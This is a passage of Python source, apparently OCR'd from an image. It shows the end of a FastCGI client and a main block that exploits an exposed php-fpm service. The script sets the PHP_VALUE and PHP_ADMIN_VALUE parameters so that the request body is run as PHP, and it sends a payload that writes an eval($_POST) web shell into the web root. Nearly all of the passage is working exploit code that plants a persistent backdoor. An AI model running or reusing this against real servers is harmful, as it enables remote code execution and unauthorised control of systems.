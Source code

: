 ```python
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    # parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    # parser.add_argument('host', help='Target host, such as 127.0.0.1')
    # parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    # parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    # parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    # args = parser.parse_args()

    client = FastCGIClient("127.0.0.1", 9000, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = "/var/www/html/index.php"
    content = '''<?php file_put_contents("/var/www/html/shell.php","<?php eval(\$_POST[1]);?>");?> '''
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    # print(force_text(response))
```